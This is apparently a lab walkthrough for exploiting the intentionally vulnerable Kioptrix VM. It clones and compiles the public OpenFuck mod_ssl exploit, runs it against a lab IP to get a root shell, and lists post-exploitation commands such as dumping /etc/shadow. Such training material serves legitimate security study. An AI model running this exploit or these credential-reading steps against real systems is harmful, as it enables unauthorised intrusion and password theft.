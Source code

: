 # 🤘 Manual Exploitation (Kioptrix)

## Manual Exploitation on Kioptrix Machine

In this walkthrough, we will explore the manual exploitation of the Kioptrix machine, a vulnerable virtual machine designed for practicing penetration testing skills. The objective is to gain root access on the target system using a known exploit related to mod\_ssl.

### 1. Identifying the Target

During reconnaissance, a GitHub repository named OpenLuck was identified. This repository contains an exploit for mod\_ssl versions lower than 2.8.7 OpenSSL. The GitHub repository can be found at [https://github.com/heltonWernik/OpenLuck](https://github.com/heltonWernik/OpenLuck).

### 2. Downloading OpenFuck.c

To initiate the exploitation process, the OpenFuck.c file from the OpenLuck GitHub repository needs to be downloaded. This is achieved using the `git clone` command:

```bash
git clone https://github.com/heltonWernik/OpenLuck.git
```

### 3. Installing the ssl-dev Library

The successful compilation of the exploit code requires the `libssl-dev` library. To install it, the following command is used:

```bash
apt-get install libssl-dev
```

### 4. Compiling OpenFuck.c

With the required library installed, the OpenFuck.c file is compiled using the `gcc` compiler:

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```

### 5. Running the Exploit

The compiled exploit, named OpenFuck, is executed with the following command:

```bash
./OpenFuck
```

The usage of the exploit involves specifying the target, box (hostname or IP address), port for SSL connection, and an optional flag for opening a specific number of connections.

### 6. Selecting the Exploit for RedHat Linux 7.2

Since the target system is identified as RedHat Linux 7.2 with Apache version 1.3.20-16, the corresponding exploit is selected. In this case, it is `0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2`.

### 7. Executing the Exploit

The selected exploit is executed with the following command:

```bash
./OpenFuck 0x6b 192.168.179.129 -c 40
```

### 8. Successful Rooting

After running the exploit, a significant command response is received, indicating successful exploitation. The final output includes the execution of commands like `whoami` and `hostname`, confirming that root access has been gained on the Kioptrix machine manually.

```bash
ptrace-kmod.c:183:1: warning: no newline at the end of file
[+] Attached to 1946
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
hostname
kioptrix.level1
```

### Post-Exploitation Commands

After gaining a shell on the target system, certain post-exploitation commands are executed to gather valuable information:

1. **`ifconfig` and `ip a`:** Display network-related information to understand the network configuration of the compromised machine.
2. **`arp`:** View the ARP cache to identify other devices on the local network.
3. **`route`:** Show the routing table to understand network paths and potential points of interest.
4. **`sudo -l`:** List sudo privileges to identify commands and operations that can be performed with elevated privileges.
5. **`cat /etc/passwd` and `cat /etc/shadow`:** Display the contents of user account information and encrypted password hashes.
